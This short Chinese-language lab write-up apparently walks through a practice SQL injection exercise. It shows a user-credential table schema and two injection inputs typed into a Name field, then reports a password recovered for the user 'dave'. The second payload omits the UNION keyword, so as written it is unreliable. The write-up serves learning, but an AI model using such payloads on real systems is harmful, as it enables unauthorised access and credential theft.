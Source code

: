 ```sql
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

在Name一栏中输入`Smith' order by 7--`得到正确的用户信息表格信息

<img src="image/14.png" />

根据此原理，在Name中输入`Smith' select null,user_name,password,null from user_system_data--`得到用户密码表格的正确信息，找到dave的密码信息为 ﻿`passW0rD`
